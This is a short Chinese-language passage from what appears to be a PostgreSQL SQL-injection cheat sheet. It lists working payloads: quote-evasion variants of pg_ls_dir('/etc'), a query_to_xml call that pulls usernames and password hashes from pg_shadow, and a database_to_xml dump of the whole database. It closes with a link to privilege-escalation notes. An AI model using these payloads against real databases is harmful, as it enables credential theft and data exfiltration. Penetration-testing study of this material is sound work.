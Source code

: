 **代替引号**
```sql
select pg_ls_dir('/etc');
select pg_ls_dir($$/etc$$);         -- 使用 $ 符号
select pg_ls_dir($test$/etc$test$); -- 使用标签
select pg_ls_dir(CHR(47)||CHR(101)||CHR(116)||CHR(99)); -- 采取CHR()函数
```

**query_to_xml**

query_to_xml 可以将结果返回在一行里，不必担心限制或多行

```sql
SELECT query_to_xml('SELECT usename, passwd FROM pg_shadow;',true,true,'')
```

**DATABASE_TO_XML**

使用 xml 帮助程序通过单个查询转储整个数据库

```sql
SELECT database_to_xml(true,true,'')
```

### 提权/GETSHELL

- [Postgresql提权](../../软件服务安全/实验/Postgresql.md)
